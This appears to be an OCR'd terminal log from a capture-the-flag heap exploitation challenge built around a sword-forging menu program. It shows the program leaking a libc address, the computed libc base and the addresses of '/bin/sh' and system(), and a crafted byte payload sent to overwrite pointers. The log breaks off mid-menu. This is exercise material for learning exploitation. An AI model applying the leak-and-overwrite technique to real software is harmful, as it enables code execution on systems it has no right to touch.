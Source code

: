 ```
1. Forge a sword.
2. Synthesise two sword.
3. Show a sword.
4. Destroy a sword.
5. Harden a sword.
6. Equip a sword.
7. Quit.
1
New sword is forged ^_^. sword index is 0.
/* Welcome! */
1. Forge a sword.
2. Synthesise two sword.
3. Show a sword.
4. Destroy a sword.
5. Harden a sword.
6. Equip a sword.
7. Quit.
3
What's the index of the sword?
0
The weight is 0
The name is x»Þ\^\x7f
LEAKED LIBC ADDR: 0x7f5e5cdebb78
LIBC BASE ADDR: 0x7f5e5ca27000
"/bin/sh" string: 0x7f5e5cbb3d57
system(): 0x7f5e5ca6c390
/* Welcome! */
1. Forge a sword.
2. Synthesise two sword.
3. Show a sword.
4. Destroy a sword.
5. Harden a sword.
6. Equip a sword.
7. Quit.
5
What's the index of the sword?
0
What's the length of the sword name?
300
The name is too long.
/* Welcome! */
1. Forge a sword.
2. Synthesise two sword.
3. Show a sword.
4. Destroy a sword.
5. Harden a sword.
6. Equip a sword.
7. Quit.
5
What's the index of the sword?
1
What's the length of the sword name?
24
Plz input the sword name.
b'UUUUUUUUW=\xbb\\^\x7f\x00\x00\x90\xc3\xa6\\^\x7f\x00\x00'
What's the weight of the sword?
-1
OK....Plz wait for forging the sword..........
/* Welcome! */
1. Forge a sword.
2. Synthesise two sword.
3. Show a sword.
4. Destroy a sword.
```